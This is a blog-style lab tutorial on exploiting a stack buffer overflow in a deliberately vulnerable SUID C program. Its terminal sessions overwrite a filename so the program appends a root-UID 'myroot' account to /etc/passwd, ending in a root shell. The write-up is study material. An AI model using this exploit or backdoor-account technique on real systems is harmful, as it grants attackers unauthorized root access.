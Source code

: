 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (1)
comments: true
---
```


Recently I've been revising the concept of buffer overflow and its exploitation, so I will post a sequence of articles on this topic with varying settings. In this article, let's exploit a simple SUID-ed program with a stack-based BOF to add a new root-priviledged user with a chosen password. This example is referenced from the book [Hacking: the Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441/ref=sr_1_sc_1?ie=UTF8&qid=1446946770&sr=8-1-spell&keywords=hacking+the+art+of+exploitaitn).  

------------------


```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  uname -a
Linux sirius 3.13.0-63-generic #103-Ubuntu SMP Fri Aug 14 21:42:59 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  gcc --version 
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

I'm using x86_64, but I will compile the program in 32bit mode.  

```C
#include    <stdio.h>
#include	<stdlib.h>
#include	<string.h>
#include	<fcntl.h>
#include	<unistd.h>

struct data {
	char buffer[100];
	char datafile[20];
};

int main (int argc, char **argv){
	struct data data;

	strcpy(data.datafile, "/var/notes");

	if (argc < 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}

	strcpy(data.buffer, argv[1]);

	printf("[DEBUG] data.buffer @ %p: \'%s\'\n", data.buffer, data.buffer);
	printf("[DEBUG] data.datafile @ %p: \'%s\'\n", data.datafile, data.datafile);

	int fd;
	fd = open(data.datafile, O_WRONLY| O_APPEND);
	printf("[DEBUG] fd @ %p: %d\n", &fd, fd);

	if (write(fd, data.buffer, strlen(data.buffer)) == -1) {
		fprintf(stderr, "in main() - no write\n");
		exit(1);
	}
	if (close(fd) == -1) {
		fprintf(stderr, "in main() - no close\n");
		exit(1);
	}
		return 0;
}
```

The program shown above simply appends `buffer` (copied from `argv[1]`) to the file `/var/notes` (in `datafile`). When strcpy is called to copy `argv[1]` to `buffer`, it can cause a buffer overflow --- when more than 100 characters are stored in `argv[0]`, then the remaining string would be overflowed. It is compiled and chown/chmod-ed as shown below.  

```
CC=gcc
CFLAGS=-m32 -std=c99 -Wall

all: pass_change

pass_change: pass_change.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

pass_change.o: pass_change.c

clean:
	rm pass_change.o pass_change
```


When `argv[1]` is not over 100 characters, it works perfectly.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  sudo touch /var/notes
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change AAAA                      
[DEBUG] data.buffer @ 0xffce9dd4: 'AAAA'
[DEBUG] data.datafile @ 0xffce9e38: '/var/notes'
[DEBUG] fd @ 0xffce9dd0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /var/notes 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  python -c "print 0xffce9e38-0xffce9dd4"
100
```

Since the offset between buffer and datafile is 100 (same as the size of buffer), the remaining part over 100 characters of argv[1] will be overwritten to `datafile`.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "A"x120')
[DEBUG] data.buffer @ 0xffed7924: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] data.datafile @ 0xffed7988: 'AAAAAAAAAAAAAAAAAAAA'
[DEBUG] fd @ 0xffed7920: -1
in main() - no write
```

By exploiting this BOF, let's create a new user with a chosen password by appending to `/etc/passwd` file. Following the format of `/etc/passwd` in UNIX system, I will add username `myroot` with password `password` --- `myroot:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash`. As shown below, `password` is encrypted using Crypto() OpenSSL cryptographic library with a salt "AA". Note that the 3rd & 4th entry (i.e. "0:0") indicates root privilege. If you want to know the format of /etc/passwd more in detail, refer to a link [here](http://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e "print crypt('password', 'AA')"         
AA6tQYSfGxd/A
```

Since the content of datafile needs to be `/etc/passwd`, but the last entry in /etc/passwd needs to specify the user's default shell. So, let's create a symbolic link with the name `/tmp/etc/passwd` pointing to `/bin/bash`. Then, adjust the length of the user ID info (comment section), so that the location of `/etc/passwd` would be at 100.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ln -s /bin/bash /tmp/etc/passwd  
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp"' | wc -c
100
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"'
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
```

Good. The exploit code is ```myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd```. And you get the root shell.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"') 
[DEBUG] data.buffer @ 0xff8541b4: 'myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] data.datafile @ 0xff854218: '/etc/passwd'
[DEBUG] fd @ 0xff8541b0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /etc/passwd | grep myroot
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  su myroot
Password: 
root@sirius:/home/taishi/blackhat_python/bof_lab# whoami
root
```
